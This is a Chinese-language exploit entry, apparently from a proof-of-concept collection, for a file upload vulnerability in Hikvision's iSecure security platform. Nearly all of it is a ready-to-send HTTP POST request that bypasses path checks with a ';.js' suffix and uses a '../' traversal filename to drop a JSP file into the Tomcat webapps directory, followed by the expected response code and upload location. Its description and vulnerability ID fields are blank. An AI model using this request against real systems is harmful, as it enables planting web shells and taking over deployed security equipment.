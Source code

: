 ﻿# 海康安防iSecure系统 文件上传漏洞

> 更新时间：2024-04-07

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /center/api/files;.js HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxxmdzwoe

------WebKitFormBoundaryxxmdzwoe
Content-Disposition: form-data; name="upload";filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/dudesite.jsp"
Content-Type:image/jpeg

1
------WebKitFormBoundaryxxmdzwoe--
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/apache-tomcat/webapps/clusterMgr/dudesite.jsp

> 验证文件来源：海康安防iSecure系统 文件上传漏洞.poc

